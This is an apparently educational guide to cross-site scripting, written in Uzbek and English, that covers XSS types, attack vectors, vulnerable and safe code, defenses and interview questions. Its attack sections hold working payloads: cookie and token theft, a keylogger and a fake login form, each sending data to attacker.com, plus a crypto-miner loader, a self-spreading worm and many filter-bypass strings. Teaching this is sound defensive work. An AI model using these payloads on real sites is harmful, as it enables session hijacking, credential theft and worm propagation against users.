

# XSS (Cross-Site Scripting)

## Mundarija
1. [XSS Nima?](#xss-nima)
2. [XSS Turlari](#xss-turlari)
3. [Attack Vectors](#attack-vectors)
4. [Zaif vs Xavfsiz Kod](#zaif-vs-xavfsiz-kod)
5. [Real Attack Scenarios](#real-attack-scenarios)
6. [Defense Strategies](#defense-strategies)
7. [Interview Savollari](#interview-savollari)

---

## Nazariya

> [!IMPORTANT]
> **Nima uchun muhim?**  
> XSS web ilovalardagi eng keng tarqalgan va e'tiborsiz qoldiriladigan zaifliklardan biridir. Dasturchilar ko'pincha foydalanuvchidan kelgan ma'lumotni to'g'ridan-to'g'ri HTML ga yozib yuborishadi (masalan, foydalanuvchi ismi, izoh). Agar u foydalanuvchi "ism" o'rniga JavaScript kod yozgan bo'lsa-chi? Sizning sahifangiz u kodni ishga tushiradi va u kod orqali hujumchi adminning cookie-parollarini o'ziga jo'natib olishi mumkin. 

> [!NOTE]
> **Real-hayot analogiyasi: "Taqdimotchi va Yomon Niyatli Tomoshabin"**  
> Tasavvur qiling, siz mikrofonda qog'ozga yozilgan savollarni sahnadan o'qib beryapsiz (Brauzer HTML ni render qilyapti).
> Qoidalarga ko'ra hamma qog'ozga faqat o'z savolini (Oddiy text) yozishi kerak. Lekin yovuz niyatli bitta tomoshabin qog'ozga shunday deb yozdi: *"Meni ismim X. Hozir qog'ozni o'qiyotgan boshlovchi yuziga bitta shapaloq ursin va hamma pulini shu kishiga bersin!"* (JavaScript kod). 
> Agar siz (Brauzer) ko'r-ko'rona yozilgan narsani ichida nima borligini tekshirmasdan (Sanitize qilmasdan) qilib yuborsangiz — hujum ish berdi.

### XSS Nima?

XSS (Cross-Site Scripting) - bu hujumchi o'z malicious JavaScript kodini boshqa foydalanuvchilar brauzerida ishlatadigan zaiflikdir.

### XSS vs CSRF

- **XSS:** Hujumchi kodi victim brauzerida **ISHGA TUSHADI** (Session o'g'irlash, keylogging)
- **CSRF:** Hujumchi victim nomidan **REQUEST** yuboradi (Parol almashtirish)
- XSS zarari CSRF dan ancha kuchliroq bo'lishi mumkin. XSS himoyalarni (CSRF tokenlarni) bemalol o'qib oladi.

---

## XSS Turlari

### 1. Stored XSS (Persistent)



```javascript
// Zaif blog comment system
// Hujumchi comment:
const maliciousComment = `
  Great article!
  <script>
    // Barcha cookie'larni o'g'irlash
    new Image().src = 'https://attacker.com/steal?c=' + document.cookie;
  </script>
`;

// Server bu comment'ni database'ga saqlaydi
// Har kim sahifani ochganda script ishga tushadi
```

### 2. Reflected XSS (Non-Persistent)

```
┌─────────────────────────────────────────────────────────────────┐
│                      Reflected XSS Flow                          │
├─────────────────────────────────────────────────────────────────┤
│                                                                  │
│  Attacker                    Server                    Victim    │
│     │                          │                          │     │
│     │  1. Craft malicious URL  │                          │     │
│     │                          │                          │     │
│     │  2. Send link to victim  │                          │     │
│     │─────────────────────────────────────────────────────▶│    │
│     │                          │                          │     │
│     │                          │  3. Victim clicks link   │     │
│     │                          │◀─────────────────────────│     │
│     │                          │                          │     │
│     │                          │  4. Server reflects      │     │
│     │                          │     payload in response  │     │
│     │                          │─────────────────────────▶│     │
│     │                          │                          │     │
│     │      5. Session stolen   │      Script executes     │     │
│     │◀─────────────────────────────────────────────────────│    │
│                                                                  │
└─────────────────────────────────────────────────────────────────┘
```

```javascript
// Zaif search endpoint
// URL: https://site.com/search?q=<script>alert('XSS')</script>

// Server response:
`<h1>Search results for: ${req.query.q}</h1>`
// Output: <h1>Search results for: <script>alert('XSS')</script></h1>

// Hujumchi URL'ni qisqartiradi va victim'ga yuboradi:
// https://bit.ly/3xY2z → redirect to malicious URL
```

### 3. DOM-Based XSS

```
┌─────────────────────────────────────────────────────────────────┐
│                      DOM-Based XSS Flow                          │
├─────────────────────────────────────────────────────────────────┤
│                                                                  │
│  Attacker                                              Victim    │
│     │                                                     │     │
│     │  1. Craft malicious URL with payload in fragment    │     │
│     │     https://site.com/#<script>...</script>          │     │
│     │                                                     │     │
│     │  2. Send link to victim                             │     │
│     │──────────────────────────────────────────────────────│    │
│     │                                                     │     │
│     │                      3. Victim's browser            │     │
│     │                         executes client-side JS     │     │
│     │                         that reads fragment         │     │
│     │                         and injects into DOM        │     │
│     │                                                     │     │
│     │  4. Malicious script executes                       │     │
│     │◀─────────────────────────────────────────────────────│    │
│                                                                  │
│  ⚠️  Payload NEVER reaches server - pure client-side attack    │
│                                                                  │
└─────────────────────────────────────────────────────────────────┘
```

```javascript
// Zaif client-side code
// URL: https://site.com/page#

// JavaScript (zaif)
const hash = location.hash.substring(1);
document.getElementById('output').innerHTML = hash;  // DOM XSS!

// Server hech narsa ko'rmaydi - hash serverga yuborilmaydi
// WAF/Server-side filter yordam bermaydi
```

### XSS Types Comparison

```
┌──────────────────────────────────────────────────────────────────────┐
│                     XSS Types Comparison                              │
├─────────────────┬────────────────┬────────────────┬──────────────────┤
│                 │ Stored         │ Reflected      │ DOM-Based        │
├─────────────────┼────────────────┼────────────────┼──────────────────┤
│ Persistence     │ Doimiy (DB)    │ Yo'q           │ Yo'q             │
│ Trigger         │ Sahifani ochish│ Link click     │ Link click       │
│ Server-side     │ Ha             │ Ha             │ Yo'q             │
│ Server ko'radi  │ Ha             │ Ha             │ Yo'q (hash)      │
│ Filter bypass   │ Qiyin          │ O'rtacha       │ Oson (no server) │
│ Impact          │ Ko'p users     │ 1 user/click   │ 1 user/click     │
│ Detection       │ Oson           │ O'rtacha       │ Qiyin            │
└─────────────────┴────────────────┴────────────────┴──────────────────┘
```

---

## Attack Vectors

### 1. Basic Script Injection

```html
<!-- Classic -->
<script>alert('XSS')</script>

<!-- Script with external source -->
<script src="https://attacker.com/evil.js"></script>

<!-- Script in event handler -->

<body onload="alert('XSS')">
<svg onload="alert('XSS')">
```

### 2. Event Handlers

```html
<!-- Mouse events -->
<div onmouseover="alert('XSS')">Hover me</div>
<a onmousedown="alert('XSS')">Click me</a>

<!-- Focus events -->
<input onfocus="alert('XSS')" autofocus>
<textarea onfocus="alert('XSS')" autofocus></textarea>

<!-- Media events -->
<video><source onerror="alert('XSS')"></video>
<audio src="x" onerror="alert('XSS')">

<!-- Form events -->
<form onsubmit="alert('XSS')"><input type="submit"></form>
<input onchange="alert('XSS')">
```

### 3. JavaScript URLs

```html
<!-- href attribute -->
<a href="javascript:alert('XSS')">Click me</a>

<!-- Form action -->
<form action="javascript:alert('XSS')">
  <input type="submit">
</form>

<!-- iframe src -->
<iframe src="javascript:alert('XSS')"></iframe>

<!-- Object data -->
<object data="javascript:alert('XSS')">
```

### 4. Data URLs

```html
<!-- Data URL with script -->
<a href="data:text/html,<script>alert('XSS')</script>">Click</a>

<!-- Base64 encoded -->
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">Click</a>

<!-- iframe with data URL -->
<iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>
```

### 5. CSS-Based

```html
<!-- Style attribute (older browsers) -->
<div style="background:url('javascript:alert(1)')">

<!-- Expression (IE only) -->
<div style="width:expression(alert('XSS'))">

<!-- CSS import -->
<style>@import 'https://attacker.com/evil.css';</style>
```

### 6. Filter Bypass Techniques

```html
<!-- Case variation -->
<ScRiPt>alert('XSS')</sCrIpT>

<!-- Encoding -->
<script>alert('XSS')</script>  <!-- URL encoded -->
<script>&#97;lert('XSS')</script>  <!-- HTML entities -->

<!-- Null bytes -->
<scr\0ipt>alert('XSS')</script>

<!-- Malformed tags -->
<script/src="https://attacker.com/evil.js">
<script x>alert('XSS')</script x>

<!-- Breaking up keywords -->
<scr<script>ipt>alert('XSS')</script>

<!-- Using SVG -->
<svg><script>alert('XSS')</script></svg>
<svg><script xlink:href="data:,alert('XSS')"></script></svg>
```

---

## Zaif vs Xavfsiz Kod

### 1. innerHTML

```javascript
// ❌ ZAIF: innerHTML bilan user input
const userInput = '';
document.getElementById('output').innerHTML = userInput;

// ✅ XAVFSIZ: textContent (no HTML parsing)
document.getElementById('output').textContent = userInput;

// ✅ XAVFSIZ: Sanitization library
import DOMPurify from 'dompurify';
document.getElementById('output').innerHTML = DOMPurify.sanitize(userInput);

// ✅ XAVFSIZ: DOM methods
const div = document.getElementById('output');
const text = document.createTextNode(userInput);
div.appendChild(text);
```

### 2. React dangerouslySetInnerHTML

```jsx
// ❌ ZAIF: dangerouslySetInnerHTML without sanitization
function Comment({ content }) {
  return <div dangerouslySetInnerHTML={{ __html: content }} />;
}

// Hujumchi:
const malicious = '';
<Comment content={malicious} />

// ✅ XAVFSIZ: DOMPurify bilan
import DOMPurify from 'dompurify';

function Comment({ content }) {
  const sanitized = DOMPurify.sanitize(content, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br'],
    ALLOWED_ATTR: ['href', 'target']
  });
  return <div dangerouslySetInnerHTML={{ __html: sanitized }} />;
}

// ✅ ENG YAXSHI: HTML render qilmaslik
function Comment({ content }) {
  return <div>{content}</div>;  // React auto-escapes
}
```

### 3. Vue v-html

```vue
<!-- ❌ ZAIF: v-html without sanitization -->
<template>
  <div v-html="userContent"></div>
</template>

<script>
export default {
  data() {
    return {
      userContent: '<script>alert("XSS")</script>'
    };
  }
};
</script>

<!-- ✅ XAVFSIZ: Sanitization bilan -->
<template>
  <div v-html="sanitizedContent"></div>
</template>

<script>
import DOMPurify from 'dompurify';

export default {
  props: ['userContent'],
  computed: {
    sanitizedContent() {
      return DOMPurify.sanitize(this.userContent);
    }
  }
};
</script>

<!-- ✅ ENG YAXSHI: Interpolation (auto-escaped) -->
<template>
  <div>{{ userContent }}</div>
</template>
```

### 4. URL Handling

```javascript
// ❌ ZAIF: User input URL'da
const userUrl = 'javascript:alert("XSS")';
window.location.href = userUrl;

// ❌ ZAIF: href attribute
document.querySelector('a').href = userInput;

// ✅ XAVFSIZ: URL validation
const isValidUrl = (string) => {
  try {
    const url = new URL(string);
    return ['http:', 'https:'].includes(url.protocol);
  } catch {
    return false;
  }
};

if (isValidUrl(userInput)) {
  window.location.href = userInput;
}

// ✅ XAVFSIZ: Whitelist approach
const allowedDomains = ['example.com', 'trusted-site.com'];

const isTrustedUrl = (urlString) => {
  try {
    const url = new URL(urlString);
    return allowedDomains.includes(url.hostname) &&
           ['http:', 'https:'].includes(url.protocol);
  } catch {
    return false;
  }
};
```

### 5. eval() and Similar

```javascript
// ❌ ZAIF: eval with user input
const userInput = 'alert("XSS")';
eval(userInput);

// ❌ ZAIF: Function constructor
new Function(userInput)();

// ❌ ZAIF: setTimeout/setInterval with string
setTimeout(userInput, 1000);

// ❌ ZAIF: document.write
document.write(userInput);

// ✅ XAVFSIZ: eval ISHLATMANG
// Agar dynamic code kerak bo'lsa - boshqa pattern

// ✅ XAVFSIZ: setTimeout with function
setTimeout(() => {
  // Safe code here
}, 1000);
```

### 6. Template Literals

```javascript
// ❌ ZAIF: Template literal in HTML context
const userName = '<script>alert("XSS")</script>';
document.body.innerHTML = `<h1>Welcome, ${userName}!</h1>`;

// ✅ XAVFSIZ: Escape function
const escapeHtml = (str) => {
  const div = document.createElement('div');
  div.textContent = str;
  return div.innerHTML;
};

document.body.innerHTML = `<h1>Welcome, ${escapeHtml(userName)}!</h1>`;

// ✅ ENG YAXSHI: DOM methods
const h1 = document.createElement('h1');
h1.textContent = `Welcome, ${userName}!`;
document.body.appendChild(h1);
```

---

## Real Attack Scenarios

### Scenario 1: Session Hijacking

```javascript
// Stored XSS in forum comment
const maliciousComment = `
  <script>
    // 1. Cookie o'g'irlash
    const cookies = document.cookie;

    // 2. LocalStorage o'g'irlash
    const storage = JSON.stringify(localStorage);

    // 3. Session token o'g'irlash
    const authHeader = window.__NUXT__?.state?.auth?.token;

    // 4. Exfiltrate
    fetch('https://attacker.com/collect', {
      method: 'POST',
      mode: 'no-cors',
      body: JSON.stringify({
        cookies,
        storage,
        authHeader,
        url: location.href
      })
    });
  </script>
`;

// Har kim bu forum sahifasini ochganda - session o'g'iriladi
```

### Scenario 2: Keylogger

```javascript
// DOM-based XSS orqali keylogger
const keyloggerPayload = `
  <script>
    let keys = '';

    document.addEventListener('keypress', (e) => {
      keys += e.key;

      // Har 20 ta key'dan keyin yuborish
      if (keys.length > 20) {
        navigator.sendBeacon(
          'https://attacker.com/keys',
          JSON.stringify({ keys, page: location.href })
        );
        keys = '';
      }
    });

    // Form submit'ni intercept
    document.querySelectorAll('form').forEach(form => {
      form.addEventListener('submit', () => {
        const formData = new FormData(form);
        navigator.sendBeacon(
          'https://attacker.com/form',
          JSON.stringify(Object.fromEntries(formData))
        );
      });
    });
  </script>
`;
```

### Scenario 3: Phishing via DOM Manipulation

```javascript
// XSS orqali fake login form
const phishingPayload = `
  <script>
    // Original login form'ni yashirish
    document.querySelector('.login-form')?.remove();

    // Fake login form qo'shish
    document.body.innerHTML = \`
      <div style="position:fixed;top:0;left:0;width:100%;height:100%;
                  background:#fff;z-index:9999;display:flex;
                  justify-content:center;align-items:center;">
        <form id="fake-login" style="padding:20px;border:1px solid #ccc;">
          <h2>Session expired. Please login again.</h2>
          <input name="email" type="email" placeholder="Email" required>
          <input name="password" type="password" placeholder="Password" required>
          <button type="submit">Login</button>
        </form>
      </div>
    \`;

    document.getElementById('fake-login').addEventListener('submit', (e) => {
      e.preventDefault();
      const data = new FormData(e.target);

      // Credentials'ni o'g'irlash
      fetch('https://attacker.com/phish', {
        method: 'POST',
        mode: 'no-cors',
        body: JSON.stringify({
          email: data.get('email'),
          password: data.get('password')
        })
      });

      // Real login'ga redirect
      location.href = '/login?error=invalid';
    });
  </script>
`;
```

### Scenario 4: Crypto Mining

```javascript
// XSS orqali crypto miner yuklash
const minerPayload = `
  <script src="https://attacker.com/miner.js"></script>
  <script>
    // Victim brauzerida crypto mining
    const miner = new CoinHive.Anonymous('ATTACKER_SITE_KEY');
    miner.start();

    // CPU throttle qilish (detection'dan qochish)
    miner.setThrottle(0.3);

    // Mining'ni yashirish
    console.clear();
    Object.defineProperty(console, 'log', { value: () => {} });
  </script>
`;
```

### Scenario 5: Worm Propagation

```javascript
// Self-replicating XSS worm (Samy worm example)
const wormPayload = `
  <script>
    const wormCode = document.currentScript.outerHTML;

    // O'zini boshqa profile'larga yuborish
    async function spread() {
      // Friends listini olish
      const friends = await fetch('/api/friends').then(r => r.json());

      // Har bir friend'ga message yuborish
      for (const friend of friends) {
        await fetch('/api/message', {
          method: 'POST',
          body: JSON.stringify({
            to: friend.id,
            content: 'Check this out! ' + wormCode
          })
        });
      }

      // O'z profile'ga qo'shish
      await fetch('/api/profile/bio', {
        method: 'PUT',
        body: JSON.stringify({ bio: wormCode })
      });
    }

    spread();
  </script>
`;
```

---

## Defense Strategies

### 1. Content Security Policy (CSP)

```http
# Strict CSP
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'nonce-abc123';
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: https:;
  font-src 'self';
  connect-src 'self' https://api.example.com;
  frame-ancestors 'none';
  base-uri 'self';
  form-action 'self';
```

```javascript
// Nonce-based CSP
// Server har response'da random nonce generatsiya qiladi

// HTML
<script nonce="random123">
  // Bu script ishga tushadi
</script>

<script>
  // Bu script BLOKLANADI (nonce yo'q)
</script>

// Injected XSS (nonce bilmaydi)
<script>alert('XSS')</script>  // BLOKLANADI
```

### 2. Input Validation

```javascript
// Server-side validation
const validateInput = (input, type) => {
  const patterns = {
    username: /^[a-zA-Z0-9_]{3,20}$/,
    email: /^[^\s@]+@[^\s@]+\.[^\s@]+$/,
    alphanumeric: /^[a-zA-Z0-9\s]+$/,
    url: /^https?:\/\/.+$/
  };

  return patterns[type]?.test(input) ?? false;
};

// Whitelist approach
const sanitizeUsername = (input) => {
  return input.replace(/[^a-zA-Z0-9_]/g, '');
};

// Length limits
const MAX_COMMENT_LENGTH = 1000;
if (comment.length > MAX_COMMENT_LENGTH) {
  throw new Error('Comment too long');
}
```

### 3. Output Encoding

```javascript
// Context-aware encoding

// HTML context
const htmlEncode = (str) => {
  return str
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#x27;');
};

// HTML attribute context
const attrEncode = (str) => {
  return str.replace(/[^\w.-]/g, (char) => {
    return `&#${char.charCodeAt(0)};`;
  });
};

// JavaScript context
const jsEncode = (str) => {
  return str.replace(/[^\w.-]/g, (char) => {
    return `\\u${char.charCodeAt(0).toString(16).padStart(4, '0')}`;
  });
};

// URL context
const urlEncode = (str) => {
  return encodeURIComponent(str);
};
```

### 4. DOMPurify Configuration

```javascript
import DOMPurify from 'dompurify';

// Basic sanitization
const clean = DOMPurify.sanitize(dirty);

// Strict configuration
const strictSanitize = (html) => {
  return DOMPurify.sanitize(html, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br', 'ul', 'ol', 'li'],
    ALLOWED_ATTR: ['href', 'target'],
    ALLOW_DATA_ATTR: false,
    ADD_ATTR: ['target'],
    FORCE_BODY: true,
    FORBID_TAGS: ['script', 'style', 'iframe', 'object', 'embed', 'form'],
    FORBID_ATTR: ['onerror', 'onload', 'onclick', 'onmouseover']
  });
};

// Hooks for custom rules
DOMPurify.addHook('afterSanitizeAttributes', (node) => {
  // External links - add rel="noopener"
  if (node.tagName === 'A' && node.getAttribute('target') === '_blank') {
    node.setAttribute('rel', 'noopener noreferrer');
  }

  // Remove javascript: URLs
  if (node.hasAttribute('href')) {
    const href = node.getAttribute('href');
    if (href.toLowerCase().startsWith('javascript:')) {
      node.removeAttribute('href');
    }
  }
});
```

### 5. Framework-Specific Protection

```javascript
// React - default safe
function SafeComponent({ userInput }) {
  // Avtomatik escape qilinadi
  return <div>{userInput}</div>;
}

// Vue - default safe
<template>
  <div>{{ userInput }}</div>  <!-- Escaped -->
</template>

// Angular - default safe
@Component({
  template: '<div>{{userInput}}</div>'  // Sanitized
})

// Express + helmet
const helmet = require('helmet');
app.use(helmet());
app.use(helmet.contentSecurityPolicy({
  directives: {
    defaultSrc: ["'self'"],
    scriptSrc: ["'self'"],
    styleSrc: ["'self'", "'unsafe-inline'"],
    imgSrc: ["'self'", 'data:', 'https:'],
  }
}));
```

### 6. Security Checklist

```
□ All user input validated on server-side
□ Output encoded based on context (HTML/JS/URL/CSS)
□ Content Security Policy implemented
□ HttpOnly flag on sensitive cookies
□ X-XSS-Protection header (legacy browsers)
□ X-Content-Type-Options: nosniff
□ DOMPurify or similar for HTML sanitization
□ No innerHTML with untrusted data
□ No eval() or similar with user input
□ URL validation for redirects
□ Trusted Types enabled (if supported)
□ Regular security audits
```

---

## Interview Savollari

### 1. XSS turlari va ularning farqlari nimada?

**Javob:**

**Stored XSS:**
- Payload database'da saqlanadi
- Sahifani ochgan HAR KIM hujumga uchraydi
- Eng xavfli tur
- Misol: Forum comment, user profile

**Reflected XSS:**
- Payload URL'da yoki form data'da
- Faqat malicious linkni bosganda ishlaydi
- Bir martalik hujum (link kerak)
- Misol: Search query, error message

**DOM-based XSS:**
- Payload serverga YETMAYDI
- Client-side JavaScript zaiflik
- Server-side filter yordam bermaydi
- Misol: URL hash (#), window.location

---

### 2. Content Security Policy (CSP) qanday XSS'dan himoya qiladi?

**Javob:**

CSP script execution'ni cheklaydi:

1. **Inline scripts bloklash:**
```http
script-src 'self';  # <script>alert()</script> ishlamaydi
```

2. **External scripts whitelist:**
```http
script-src 'self' https://trusted.com;
```

3. **Nonce-based:**
```html
<script nonce="abc123">// OK</script>
<script>// BLOCKED</script>
```

4. **Hash-based:**
```http
script-src 'sha256-xyz...';  # Faqat ma'lum hash'li script
```

5. **eval() bloklash:**
```http
script-src 'self';  # 'unsafe-eval' yo'q
```

XSS inject qilingan bo'lsa ham, CSP uni ishga tushirmaydi.

---

### 3. innerHTML ishlatmaslik kerak. Nima uchun va alternativlari qanday?

**Javob:**

**Nima uchun xavfli:**
```javascript
element.innerHTML = userInput;
// <script>alert('XSS')</script> ishga tushadi
//  ishga tushadi
```

**Alternativlar:**

1. **textContent (text uchun):**
```javascript
element.textContent = userInput;  // HTML parse qilmaydi
```

2. **DOM methods:**
```javascript
const text = document.createTextNode(userInput);
element.appendChild(text);
```

3. **DOMPurify (HTML kerak bo'lsa):**
```javascript
element.innerHTML = DOMPurify.sanitize(userInput);
```

4. **Framework (React/Vue):**
```jsx
<div>{userInput}</div>  // Avtomatik escape
```

---

### 4. DOM-based XSS'ni qanday topish va oldini olish mumkin?

**Javob:**

**Sources (xavfli input):**
- `location.hash`, `location.search`, `location.href`
- `document.referrer`
- `document.cookie`
- `window.name`
- `postMessage` data

**Sinks (xavfli output):**
- `innerHTML`, `outerHTML`
- `document.write()`
- `eval()`, `Function()`
- `setTimeout/setInterval` (string)
- `location.href = ...`
- `element.setAttribute('onclick', ...)`

**Detection:**
```javascript
// Static analysis tools
// taint tracking
// grep for sinks + manual review
```

**Prevention:**
```javascript
// Avoid sinks
element.textContent = location.hash;  // Safe

// Validate sources
const hash = location.hash.substring(1);
if (/^[a-zA-Z0-9]+$/.test(hash)) {
  // Safe to use
}

// CSP
script-src 'self';  // eval bloklash
```

---

### 5. React'da XSS qanday oldini olish mumkin?

**Javob:**

**React avtomatik himoya:**
```jsx
// JSX avtomatik escape qiladi
<div>{userInput}</div>  // Safe
```

**XSS mumkin bo'lgan joylar:**

1. **dangerouslySetInnerHTML:**
```jsx
// ❌ Xavfli
<div dangerouslySetInnerHTML={{ __html: userInput }} />

// ✅ DOMPurify bilan
<div dangerouslySetInnerHTML={{ __html: DOMPurify.sanitize(userInput) }} />
```

2. **href attribute:**
```jsx
// ❌ Xavfli
<a href={userInput}>Link</a>  // javascript: mumkin

// ✅ Validation bilan
const safeHref = userInput.startsWith('http') ? userInput : '#';
<a href={safeHref}>Link</a>
```

3. **Server-side rendering:**
```jsx
// ❌ Xavfli
<script dangerouslySetInnerHTML={{
  __html: `window.data = ${JSON.stringify(userData)}`
}} />

// ✅ Serialize-javascript bilan
import serialize from 'serialize-javascript';
<script dangerouslySetInnerHTML={{
  __html: `window.data = ${serialize(userData, { isJSON: true })}`
}} />
```

## Eng Yaxshi Amaliyotlar (Best Practices)

1. **Ehtiyot bo'ling: v-html:** VueJS foydalanuvchilari uchun `v-html` (yoki React da `dangerouslySetInnerHTML`) funksiyasi aynan XSS uchun ochiq eshikdir. Foydalanuvchi kiritgan ma'lumotni hech qachon v-html qilib chiqarmang!
2. **DOMPurify ishlating:** Agar haqiqatan ham HTML (Masalan WYSIWYG editordan olingan matn) chiqarish kerak bo'lsa, uni chiqarishdan oldin **har doim** DOMPurify kutubxonasi orqali tozalang (Sanitize).
3. **HTTPOnly Cookie:** Auth tokenlarini localStorage ga emas, `HttpOnly` cookie ga saqlang. Shunda XSS sodir bo'lgan taqdirda ham, hacker sizning tokeningizni (session) o'qiy olmaydi.
4. **Content Security Policy (CSP):** Loyihangizda CSP headerni qo'llang (`script-src 'self'`). Bu orqali siz brauzerga "Faqat mening o'z domenimdan kelgan scriptlarni ishlatsangiz, qolgan begona domenlardan kelgan scriptlarni blokla!" deysiz.

---

## Xulosa

| XSS Turi | Qanday ishlaydi? | Himoya Usuli |
|----------|------------------|--------------|
| **Stored XSS** | Ma'lumot bazasida saqlanib hammaga ko'rsatiladi (Eng xavfli) | Barcha user inputlarini saqlash va ko'rsatishdan oldin tozalash (Sanitize) |
| **Reflected XSS**| Maxsus ssilka orqali yuboriladi va server javobida aks etadi | URL parametrlarini to'g'ridan-to'g'ri HTML ga yozmaslik |
| **DOM-based XSS**| Brauzerda JS orqali (innerHTML) DOM o'zgarganda ishlaydi | `innerHTML` o'rniga `textContent` ishlatish, DOMPurify qo'llash |

XSS juda eski, lekin hamon xavfli bo'lgan hujum turi hisoblanadi. Zamonaviy frameworklar (Vue, React) by-default ko'p himoyalarni o'z ichiga oladi (masalan `{{ text }}` orqali matnlar avtomatik HTML escape qilinadi). Lekin `v-html` (Vue) yoki `dangerouslySetInnerHTML` (React) ishlatilganda baribir hushyor bo'lish kerak. Himoyani to'liq ta'minlash uchun Sanitization, HTTPOnly Cookies va CSP kabi qo'shimcha choralardan foydalaning.
